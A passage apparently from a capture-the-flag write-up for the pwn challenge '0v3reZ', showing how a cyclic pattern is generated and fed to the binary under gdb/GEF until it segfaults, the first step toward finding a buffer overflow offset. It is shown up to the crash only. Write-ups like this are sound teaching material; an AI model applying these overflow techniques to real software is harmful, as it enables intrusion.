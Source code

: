 Firstly to get the offset we need to generate bytes of data and I used cyclic tool to create 100 bytes of data

```                                      
┌──(venv)─(mark㉿haxor)-[~/…/CTF/Sabr/pwn/0v3reZ]
└─$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```                                                                                                     

Now I opened the binary in gdb to run it

```                                   
┌──(venv)─(mark㉿haxor)-[~/…/CTF/Sabr/pwn/0v3reZ]
└─$ gdb 0v3reZ 
GNU gdb (Debian 12.1-4) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.01ms using Python engine 3.10
Reading symbols from 0v3reZ...
(No debugging symbols found in 0v3reZ)
gef➤  
```

Now we run it by simply typing run/r and press enter key. 

It will then require an input from us so we give it the data gotten from cyclic

```
gef➤  r
Starting program: /home/mark/Desktop/CTF/Sabr/pwn/0v3reZ/0v3reZ 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc9000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

 ▄▄████████▄ ▄███   ▄███ ▄█████████▄ ▄█████████▄ ▄▄█████████ ▄██████████
 ████▀▀▀████ ████   ████ ▀▀▀▀▀▀▀████ ████▀▀▀████ ████▀▀▀▀▀▀▀ ▀▀▀▀▀▀█████
 ████   ████ ████   ████     ▄▄▄███▀ ████▄▄▄███▀ ████▄▄▄         ▄████▀▀
 ████   ████ ████  ▄████     ▀▀▀███▄ ████▀▀▀███▄ ████▀▀▀       ▄████▀▀  
 ████▄▄▄████ ████▄█████▀ ▄▄▄▄▄▄▄████ ████   ████ ████▄▄▄▄▄▄▄ ▄█████▄▄▄▄▄
 ▀█████████▀ ████████▀▀  ██████████▀ ████   ████ ▀██████████ ███████████
  ▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀    ▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀   ▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀▀


b0fz: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401282 in ?? ()
```
